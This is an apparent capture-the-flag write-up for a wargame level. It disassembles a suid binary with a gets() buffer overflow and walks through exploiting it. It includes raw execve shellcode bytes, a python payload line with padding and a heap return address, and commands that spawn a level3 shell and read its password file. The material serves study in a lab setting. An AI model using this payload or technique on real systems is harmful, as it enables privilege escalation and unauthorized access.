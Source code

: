 # Level2

## Solution

* There is one file in our home, ```level1```, belonging to ```level2``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* The only purpose of the ```main``` function is to call ```p``` function.

* Here is the disassembled ```p``` function:
```
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
```

* Several interesting information about it:

	* ```p``` calls ```gets``` function at offset ```25``` : we can potentially exploit it to do a buffer overflow attack
	* between offsets ```30``` and ```49```, the program checks that the former value of ```eip```, located at ```ebp + 0x4```, doesn't start with ```b``` value : indeed it would indicate a try to execute code on the stack. If the value starts with ```b```, the program exits.
	* at offset ```100```, there is a call to ```strdup```: what we wrote thanks to ```gets``` function will now be copied on the heap

	
* What we did with all of this:

	* the goal was to perform a buffer overflow attack, by writing a shell code located in the buffer used for ```gets``` function, and a new address to replace the former ```eip```.
	* to get the shell code, we compiled ```shellcode.s``` with ```nasm -f elf32 shellcode2.s -o shellcode``` and got the bytecode thanks to ```objdump -d shellcode```
	* we then launched the following command in the vm:
	```sh
	python -c "print('\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80' + '\x90' * 55 +  '08a00408'.decode('hex'))" > /var/crash/lvl2
	 ```

	* the first 25 bytes are the shellcode itself
	* the 55 following bytes allow us to reach ```ebp + 0x4```, that is to say the former ```eip``` that will be poped at the end of ```p``` function (```0x4c (buffer size) + 0x4 (for former value of ebp) - 0x19 (size of the shell code) = 0x37)```)
	* the final 4 bytes are the little endian written address located on the heap of the buffer used by ```gets```: at the end of ```p```  function, the next instruction read will be our shellcode :)
	* finally, to get the flag, we laumch :
	```sh
	cat /var/crash/lvl2 - | ./level2
	```
	* it opens a shell with ```level3``` user permissions and we can do the following:
	```sh
	cd ../level3; cat .pass
	```




